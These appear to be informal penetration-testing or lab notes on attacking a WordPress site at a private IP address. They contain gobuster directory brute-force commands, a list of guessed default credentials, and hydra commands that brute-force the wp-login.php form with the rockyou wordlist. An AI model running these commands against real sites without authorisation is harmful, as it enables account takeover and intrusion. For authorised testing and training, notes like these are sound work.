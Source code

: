  how about put URL and trigger click from them , like stored XSS 

robots.txt 
  X


- dir brute forcing - gobuster 

fastscan
  gobuster dir -u http://172.31.222.211/ -w /usr/share/dirb/wordlists/common.txt -t 20 -o fastscan_root -f
    wp-admin, xmlrpc , `wp-includes`, ...
      I think wp-includes = default wp setting, so that means admin didn't touch this dir

  with file
  gobuster dir -u http://172.31.222.211/ -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,html,txt -o extension
    wp-login, wordpress, ...


  later
  `bak,bac,zip,back,backup,docs,xlxs`,


  gobuster dir -u http://172.31.222.211/index.php -w /usr/share/dirb/wordlists/common.txt -t 20 -o fastscan_index -f
    /0 , atom, `cgi-bin`, ... - different results

  gobuster dir -u http://172.31.222.211/index.php -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,html,txt -o extension_index -f


>> deep dive
readme.html 
  when do I use? 

/wordpress/
  setup config, if I have DBname,creds,host, I can replace and reset the wp-config.php(it's known for DB critical data there)
    so that means there's a DB server running on another port? or just can I reset the creds?   
    no I need correct creds and hostname 
/wp-includes/
  I think it's about theme, or widget or sort of things , and it's default setting
    is there useful info? skip for now
/wp-admin/
  login page > is it default creds?
  root:root, root:password admin:admin admin:password
    I can know admin exists on their DB and get valid users - brute forcing hydra
      hydra -L validusers.txt -p "ransom" 172.31.222.211 -s 80 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=instead" -V 
        no I need to find specific one

      hydra -l admin -P /usr/share/wordlists/rockyou.txt 172.31.222.211 -s 80 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" -V 
        no I think it's unusual
      

    run wpscan at the same time. 
